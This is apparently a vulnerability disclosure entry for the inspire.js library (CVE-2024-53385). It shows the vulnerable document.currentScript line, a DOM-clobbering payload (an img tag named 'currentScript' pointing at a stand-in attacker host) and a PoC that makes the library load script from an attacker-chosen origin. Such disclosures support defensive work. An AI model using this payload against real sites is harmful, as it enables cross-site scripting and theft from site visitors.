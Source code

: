 ## inspire.js

### Meta

+ Library: inspire.js
+ Stars: 1.7K
+ Version: v1.10
+ Fingerprint: `window.hasOwnProperty('inspireLoaded')`
+ Payload: ```<img name="currentScript" src="https://attack.hulk"></img>```
+ Impact: XSS
+ Status: Reported
+ CVE: CVE-2024-53385
+ Foundby: TheHulk

### Library

https://inspirejs.org/inspire.js

### Vulnerable Code Snippet

```javascript
let url = new URL("./inspire.mjs", document.currentScript ? document.currentScript.src : "https://inspire.js.org/");
```

## PoC

```html
<!--Library-->
<script src="https://inspirejs.org/inspire.js"></script>
<!--Library-->

<!--Payload-->
<img name=currentScript src="http://localhost:9999">
<!--Payload-->
```
